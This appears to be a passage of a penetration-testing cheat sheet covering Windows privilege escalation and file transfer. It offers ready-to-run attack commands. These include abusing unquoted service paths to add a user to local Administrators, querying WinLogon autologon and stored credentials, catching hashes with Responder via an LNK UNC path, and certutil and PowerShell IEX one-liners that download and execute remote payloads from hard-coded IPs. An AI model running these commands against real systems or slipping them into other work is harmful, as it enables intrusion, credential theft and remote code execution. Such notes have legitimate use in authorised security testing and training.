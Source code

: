 - Scenario 2
```
LNK with UNC path of a non existent share
Responder to catch hashes
```

- Scenario 3
```

```

## Privilege Escalation Methods:
- To find we can use
```
Winpeas
beroot
Invoke-Privesc
PowerUp.ps1
```
- Unquoted Service Paths can be exploited using `PowerView.ps1`
- We can find them using PowerUp or general queries
```bash
# PowerUp
Get-ServiceUnquoted -Verbose
# General
wmic service get name,pathname | findstr /i /v system32 | findstr /v \"
```
- And then exploit them
```bash
Invoke-ServiceAbuse -Name AbyssWebServer -Command 'net localgroup Administrators dcorp\student13 /add'
```
- DCSync (Exchange Windows Permissions)(Check for `Outbound Control Rights` from `BloodHound`)
- WinLogon AutoCreds
```bash
reg.exe query "HKLM\software\microsoft\windows nt\currentversion\winlogon" # ON WINDOWS
```
- Stored credentials
```bash
cmdkey /list
```

## File Transfer Methods:
- SMB Server
```bash
impacket-smbserver "SHARE NAME" $(pwd) -smb2support -user "USERNAME" -password "PASSWORD" # Starts the SMB Server

# ON WINDOWS
$pass = convertto-securestring "PASSWORD" -AsPlainText -Force # To convert it to useable password
$cred = New-Object System.Management.Automation.PSCredential("'USERNAME'", $pass) # Setting up cred object with username and password
New-PSDrive -Name "USERNAME" -PSProvider FileSystem -Credential $cred -Root \\"IP ADDRESS"\"SHARE NAME # Connecting the drive to windows
cd "USERNAME": # Get into the drive
```
- Cert Util
```bash
certutil -urlcache -f http://10.50.27.84:8000/ok.exe ok.exe
```
- Powershell
```bash
powershell "IEX(New-Object Net.WebClient).downloadString('http://172.16.99.13/bypass.ps1')"

powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.14.12.230/CLSID.ps1')|iex"
```